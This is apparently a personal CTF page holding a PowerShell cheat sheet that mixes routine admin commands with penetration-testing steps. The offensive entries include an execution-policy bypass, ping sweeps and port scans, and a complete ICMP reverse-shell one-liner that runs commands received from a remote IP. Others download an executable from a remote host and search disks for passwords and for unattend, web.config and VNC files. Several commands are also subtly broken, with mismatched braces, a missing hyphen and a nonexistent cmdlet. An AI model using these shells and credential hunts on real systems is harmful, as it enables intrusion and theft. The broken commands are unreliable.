 ```yaml
---
layout: page
title: CTF
permalink: /ctf/
---
```


PowerShell

Start a session without a profile and bypassing no execution
`powershell.exe -nop -exec bypass`

Get a directory listing (ls, dir, gci):
`PS C:\> Get-ChildItem`

Copy a file (cp, copy, cpi):
`PS C:\> Copy-Item src dst`

Find text within a file:
`PS C:\> Select-String -path c:\users\*.txt -pattern password`

`PS C:\> ls -r c:\users -file | %{Select-String -path $_ -pattern password}`

Display file contents (cat, type, gc):
`PS c:\> Get-Content file.txt`

Get current directory (pwd, gl):
`PS C:\> Get-Location`

Get a process listing (ps, gps):
`PS c:\> Get-Process`

Get a service listing:
`PS C:\> Get-Service`

Formatting output of a command (Format-List, fl):
`PS c:\> ls | Format-List -property name`

Paginating output:
`PS C:\> ls -r | Out-Host -paging`

Get SHA1 hash of a file:
`PS C:\> Get-FileHash -Algorithm SHA1 file`

Export output to CSV:
`PS C:\> GetProcess | Export-Csv procs.csv`

Conduct a ping sweep:
`PS C:\> 1..255 | % (echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}`
```
powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"
```

Conduct a port scan:
`PS c:\> 1..1024 | % {echo ((new-object Net.sockets.TcpClient).Connect ("10.10.10.10",$_)) "Port is open!"} 2>$null`

Fetch a file via HTTP:
`PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "file.exe")`
`PS C:\> Invoke-WebRequest -Outfile C:\place\to\put http://IP/filetoget`

Find files with a specific name:
`PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt`
`PS C:\> Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}`
`PS C:\> Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue`
`PS C:\> Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue`
`PS C:\> Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"`

Get a listing of all installed Microsoft Hotfixes:
`PS C:\> Get-Hotfix`

Navigate the Windows Registry:
`PS C:\> cd HKLM:\`
`PS HKLM:\> ls`

List programs that start automatically in the registry:
`PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run`

Convert String from ascii to Base64:
`PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8GetBytes("PS Encode me!""))`

NETWORKING
`PS C:\> Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address`
`PS C:\> Get-DnsClientServerAddress -AddressFamily IPv4 | ft`
`PS C:\> Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex`
`PS C:\> Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State`
`PS C:\> Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse`

List and modify the windows firewall rules:
`PS C:\> Get-NewFirewallRule -all`
`PS C:\> New-FirewallRule -Action Allow -DisplayName ItsaMe -RemoteAddress 10.10.10.99`

INFO ON CMDLETS/MODULES
```
PS C:\> Get-Help <cmdlet>
PS C:\> Get-Help <cmdlet> -detailed
PS C:\> Get-Help <cmdlet> -examples
PS C:\> Get-Help <cmdlet> -full
PS C:\> Get-Command -Module modulename
```

Get-Command supports filtering. To filter cmdlets on the verb set:
```
PS C:\> Get-Command Set*
PS C:\> Get-Command –Verb Set

Or on the noun process:
PS C:\> Get-Command *Process
PS C:\> Get-Command –Noun process
```

Piping cmdlet output to another cmdlet:
`PS C:\> Get-Process | Format-List –property name`

ForEach-Object in the pipeline (alias %):
`PS C:\> ls *.txt | ForEach-Object {cat $_}`

Where-Object condition (alias where or ?):
`PS C:\> Get-Process | Where-Object {$_.name –eq "notepad"}`


Generating ranges of numbers and looping:
`PS C:\> 1..10`
`PS C:\> 1..10 | % {echo "Hello!"}`


Creating and listing variables:
`PS C:\> $tmol = 42`
`PS C:\> ls variable:`

Examples of passing cmdlet output down pipeline:
`PS C:\> dir | group extension | sort`
`PS C:\> Get-Service dhcp | Stop-Service -PassThru | Set-Service -StartupType Disabled`

ADDING MODULES TO SESSION
`PS C:\> Import-Module C:\Path\to\name.ps1`

INVOKE COMMAND -ICM
`PS C:\> Invoke-Command -ComputerName <name> -ScriptBlock {whoami}
$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username,$securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {whoami};`

GET LANGUAGE MODE
`PS C:\> $ExecutionContext.SessionState.LanguageMode`

x86 or x64
`PS C:\> [IntPtr]::size`

ENVIRONMENT VARIABLES
`PS C:\> Get-ChildItem Env: | ft Key,Value`
`PS C:\> $env:UserName`

CONNECTED DRIVES
`PS C:\> Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root`

LDAP
```
PS C:\> $username = 'lab.local\LDAP'; $password = 'PASSWORD'; $DomainControllerIpAddress = 'IP'; $LdapDn = 'DC=lab,DC=local'; $dn = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$($DomainControllerIpAddress):389/$LdapDn", $username, $password); $ds = New-Object System.DirectoryServices.DirectorySearcher($dn); $ds.SearchRoot;
    $ds.Filter ="((objectCategory=computer))"; $ds.FindAll();
    $ds.Filter ="((objectCategory=user))"; $ds.FindAll();
    $ds.filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,DC=lab,dc=local))"; $ds.FindAll();
    $ds.Filter ="((name=Administrator))"; $ds.FindAll().properties;
    $ds.Filter ="((name=Bob*))"; $ds.FindAll().properties;
```

UAC
`$secpasswd = ConvertTo-SecureString "1234test" -AsPlainText -Force; $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd); $computer = "BOXNAME"; [System.Diagnostics.Process]::Start("C:\temp\file.bat",$mycreds.Username,$mycreds.Password,$computer)`



